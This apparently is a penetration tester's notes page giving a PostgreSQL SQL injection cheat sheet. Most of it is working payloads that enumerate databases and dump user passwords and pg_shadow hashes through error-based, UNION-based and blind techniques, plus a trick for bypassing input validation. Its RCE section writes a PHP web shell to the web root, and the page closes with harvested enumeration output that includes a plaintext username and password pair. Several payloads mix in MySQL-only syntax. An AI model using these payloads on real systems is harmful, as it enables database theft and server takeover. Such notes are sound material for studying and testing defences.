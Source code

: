 # PostgreSQL

## Methodology

See [0 SQL Injection](0%20SQL%20Injection.md) for identification if necessary

### Error-based Payloads vs Authentication Queries

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
' OR 1=1 in (SELECT version()) -- //
'
# We can now attempt to dump table information
' OR 1=1 in (SELECT * FROM users) -- //
'
# In the case where we can only query one column at a time
' OR 1=1 in (SELECT password FROM users) -- //
'
# We can now specify a user to dump the password for
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) for additional example queries

### UNION-based/Error-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

**Note** PostgreSQL differs from MySQL in `UNION SELECT` statements due to having to match the variable types within the statement. We can aid in matching types by casting with `::` after the character

```mysql
# We first use ORDER BY and increment until we receive an error
' ORDER BY 1 -- //
' ORDER BY 1,2 -- //
' ORDER BY 1,2,3 -- //
' ORDER BY 1,2,3,4 -- //
' ORDER BY 1,2,3,4,5 -- //
' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //
'
# We can now rearange our statement to first query baseline information
' UNION SELECT null, current_database(), user, version(), null -- //
' UNION SELECT null, CAST(current_database() as integer), null, null, null -- //
' UNION SELECT null, CAST(passwd as integer), null, null, null, null FROM pg_shadow -- //
'
# Now we can query all databases available for us to enumerate (note: information_schema is default)
' UNION SELECT null, datname, null, null, null FROM pg_database -- //
' UNION SELECT null, CAST((SELECT datname FROM pg_database) as integer), null, null, null -- //
# In the case where we have to limit output due to not allowing more than one row to be returned (increment offset)
' UNION SELECT null, CAST((SELECT datname FROM pg_database LIMIT 1 OFFSET 0) as integer), null, null, null -- //
'
# We can now query tables for our desired databases
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='db_name' -- //
' UNION SELECT null, CAST((SELECT table_name FROM information_schema.tables WHERE table_schema='db_name') as integer), null, null, null -- //

# We can now query columns for our desired table
' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema='db_name' -- //
' UNION SELECT null, CAST((SELECT column_name FROM information_schema.columns WHERE table_schema='db_name' LIMIT 1 OFFSET 0) as integer), null, null, null -- //

# We now have all the information we need to query table data
' UNION SELECT null, username, password, description, null FROM users -- //
' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //

# We can also leak variables within error data via CAST()
' UNION SELECT null, CAST(version() as integer), null, null, null -- //
' UNION SELECT null, CAST((SELECT * FROM users) as integer), null, null, null -- //
# Miscellaneous functions: current_database(), current_schema(), current_schemas(boolean), current_user, session_user, user, version() - https://www.postgresql.org/docs/7.3/functions-misc.html

# RCE (doesn't matter if PHP code is in viewable column)
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/shell.php" -- //
'; COPY (SELECT '<?php system($_GET[''cmd'']);?>') TO '/var/www/html/shell.php' -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Boolean-Based Blind SQL Injection

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
' AND IF (1=1, sleep(2),'false') -- //
```

Current user: rubben
Database: postgres | template1 | template0 | glovedb
Table: public

Columns: active | weight | height | gender | email | created_at

rubben:avrillavigne
